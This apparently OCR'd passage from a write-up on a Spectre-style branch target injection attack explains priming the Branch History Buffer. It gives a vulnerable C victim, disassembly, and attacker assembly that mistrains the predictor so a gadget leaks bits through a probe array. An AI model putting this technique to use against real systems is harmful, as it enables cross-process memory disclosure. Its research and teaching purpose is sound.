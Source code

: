 ### Controling the BHB and target victim code
As seen before, the BHB is used to select a BTB entry. In order to find a BTB collision and exploit this vulnerability, an attacker must know the last N (29 if <skylake) branches taken. In our tests, we used a for loop to set the state of the BHB to a known value before the indirect call. Here is a vulnerable example of victim code:
```.c
#include <stdio.h>

void DoNothing();
void (*codePtr)() = DoNothing;

void DoNothing(){
    return;
}

int main(){
    printf("Destination = %p\n",codePtr);
    while(1){
	for(int i=0;i<200;i++){}
    	codePtr();
    }
}

```

In order to ensure the BHB state is the same in the both contexts, the attacker copies the bytes corresponding to the victim for loop and call in form of a shellcode.The shellcode is copied to all possible 256 positions that can match the 20LSB alignment required for the BHB state to be the same.

```.asm
Victim Code

0x5594c566a152 <+28>:    mov    eax,0xc8
0x5594c566a157 <+33>:    dec    eax
0x5594c566a159 <+35>:    jne    0x1157 <main+33>
0x5594c566a15b <+37>:    nop
0x5594c566a15c <+38>:    nop
0x5594c566a15d <+39>:    nop
0x5594c566a15e <+40>:    lea    rdi,[rip+0x2ecb]
0x5594c566a165 <+47>:    call   QWORD PTR [rdi]

--> Executes to
0x5594c5669135:    ret

```

```.asm
Attacker Code

… //eax=200 rsi=probeArray, cl=0 
0x6a157    dec    eax
0x6a159    jne    0x455555500157
…
0x6a165    jmp    QWORD PTR [rdi]

--> Misspredicts to
0x5594c566a135:    lea rax,[rip - 7]
0x5594c566a13c:    shr rax,cl
0x5594c566a13f:    and rax,1
0x5594c566a133:    shl rax,12
0x5594c566a137:    mov dl,[rsi+rax]
```
